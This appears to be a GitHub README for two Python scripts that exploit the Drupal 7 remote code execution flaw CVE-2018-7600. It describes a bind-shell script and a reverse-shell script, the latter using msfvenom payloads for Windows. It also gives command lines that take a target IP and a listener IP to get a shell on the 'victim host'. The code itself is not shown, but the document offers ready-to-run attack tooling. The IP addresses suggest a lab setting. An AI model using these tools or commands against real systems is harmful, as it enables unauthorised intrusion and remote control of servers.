



# CVE-2018-7600
Two Python3 scripts that exploit Drupal 7's RCE vulnerability on Windows and Linux. Scripts are meant to acquire a shell on the target host.  
Nothing fancy, the scripts are meant to do everything for you and you don't need to setup your listener(s) separately.  

### d2shell.py
Setup and connect to a netcat binded shell onto the victim host.  
Usage.  
~~~Bash
# python3 d2shell.py target lhost windows/linux  
python3 d2shell.py 172.16.1.10 10.10.14.10 windows  
~~~  

  

### d2rev.py
Acquire a reverse shell onto the victim host. This script will use msfvenom to create an encoded shell payload if the victim is Windows based.  
Usage.  
~~~Bash
# python3 d2rev.py target lhost windows/linux  
python3 d2rev.py 172.16.1.10 10.10.14.10 windows  
~~~  

  

